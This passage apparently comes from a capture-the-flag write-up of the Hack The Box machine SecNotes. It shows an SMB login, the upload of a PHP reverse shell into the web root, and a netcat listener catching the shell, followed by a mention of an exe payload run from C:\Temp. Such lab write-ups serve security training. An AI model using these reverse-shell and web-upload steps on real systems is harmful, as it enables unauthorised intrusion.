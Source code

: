 I got these shares →

![Untitled](SecNotes%20459bb959f3c74a3f9cf99b1d6883d07c/Untitled%205.png)

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/SecNotes]
└─$ smbclient //10.10.10.97/new-site -U 'tyler' 
Password for [WORKGROUP\tyler]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jan  5 12:51:25 2024
  ..                                  D        0  Fri Jan  5 12:51:25 2024
  iisstart.htm                        A      696  Thu Jun 21 20:56:03 2018
  iisstart.png                        A    98757  Thu Jun 21 20:56:03 2018

		7736063 blocks of size 4096. 3361181 blocks available
smb: \> put php_shell_windows.php 
putting file php_shell_windows.php as \php_shell_windows.php (25.9 kb/s) (average 20.6 kb/s)
smb: \>
```
{: .nolineno}

I uploaded the `php` reverse shell →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/SecNotes]
└─$ rlwrap nc -lvnp 4444            
listening on [any] 4444 ...
connect to [10.10.16.31] from (UNKNOWN) [10.10.10.97] 53308
SOCKET: Shell has connected! PID: 5376
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>whoami
iis apppool\newsite

C:\inetpub\new-site>hostname
SECNOTES

C:\inetpub\new-site>
```
{: .nolineno}

This connection get terminated after few seconds as that php reverse shell file get deleted so for getting a proper shell I created a payload in `exe` format and uploaded in `C:\Temp` and executed it and got the shell through that →
